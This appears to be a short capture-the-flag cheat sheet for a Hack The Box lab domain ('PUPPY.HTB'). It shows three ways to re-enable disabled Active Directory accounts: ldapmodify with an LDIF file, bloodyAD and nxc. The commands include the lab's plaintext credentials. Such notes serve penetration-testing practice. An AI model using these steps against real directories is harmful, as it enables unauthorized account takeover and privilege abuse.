 
---

# Enable `STATUS_ACCOUNT_DISABLED` users.

## ldapmodify
1. **Find the DN of the user** (Distinguished Name):
```
ldapsearch -x -H ldap://10.10.11.70 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b "DC=PUPPY,DC=HTB" "(sAMAccountName=jamie)"

dn: CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB
```
2. **Create an LDIF file** (e.g., `enable.ldif`):
```sh
dn: CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
#512 → enabled account , 514 → disabled account
```
3. **Apply the LDIF using `ldapmodify`**:
```sh
ldapmodify -x -H ldap://10.10.11.70 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -f enable.ldif
```


## bloodyAD 
```sh
bloodyAD -u 'ant.edwards' -p 'Antman2025!' -d 'PUPPY.HTB' --dc-ip 10.10.11.70 remove uac 'adam.silver' -f ACCOUNTDISABLE
```

## nxc
```sh
nxc ldap 10.10.11.70 -d PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --modify "CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB" userAccountControl 512
```

---
